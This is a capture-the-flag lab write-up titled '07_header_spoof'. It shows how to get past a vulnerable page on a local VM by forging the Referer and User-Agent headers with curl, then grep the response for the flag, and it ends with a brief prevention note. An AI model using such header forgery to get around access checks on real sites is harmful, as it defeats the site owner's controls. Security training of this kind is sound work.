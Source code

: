 # 07_header_spoof

## Instruction

In the page

```
http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f
```

We'll get several hints several hints such as `You must come from : "https://www.nsa.gov/"` and `Let's use this browser : "ft_bornToSec". It will help you a lot.`

Using provided information we can write next curl request

```
curl 'http://192.168.56.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' -H "Referer: https://www.nsa.gov/" -H "User-Agent: ft_bornToSec" -s -o head.html
```

After request let's find our flag

```
cat head.html | grep flag
```

## How to prevent

The finally responsibility for security always rests with the back-end.
We should always check every request that came from the internet
